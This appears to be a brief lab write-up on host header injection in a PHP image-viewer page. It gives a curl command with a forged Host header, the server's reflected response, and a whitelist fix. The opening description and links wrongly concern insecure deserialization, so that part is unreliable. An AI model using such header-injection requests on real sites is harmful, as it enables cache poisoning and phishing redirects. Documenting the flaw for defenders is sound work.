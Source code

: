 ### Description

Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks,including replay attacks, injection attacks, and privilege escalation attacks.

refers : 
* https://portswigger.net/kb/issues/00200200_http-response-header-injection 
* https://www.owasp.org/index.php/Top_10-2017_A8-Insecure_Deserialization

### Issue 

It is possible to Host Header Injection on server and it will reflect in web page.

### Exploit 


```console
curl -i http://0 --header "host:example.com"
```

Get Response : 

```html
HTTP/1.1 200 OK
Host: example.com
Date: Fri, 20 Dec 2019 22:35:47 +0530
Connection: close
X-Powered-By: PHP/7.2.9-1
Content-type: text/html; charset=UTF-8

<!DOCTYPE html>
<body>
<center>
<fieldset>
<legend>IMG viewer</legend>
<img width="500" src="http://example.com/img.png" >
</fieldset>
</center>
</body>
</html>	
```
### Fix 

Server reject anything that doesn't match with the white listed host 


Other resources :

Video about php deserialization : https://www.youtube.com/watch?v=HaW15aMzBUM

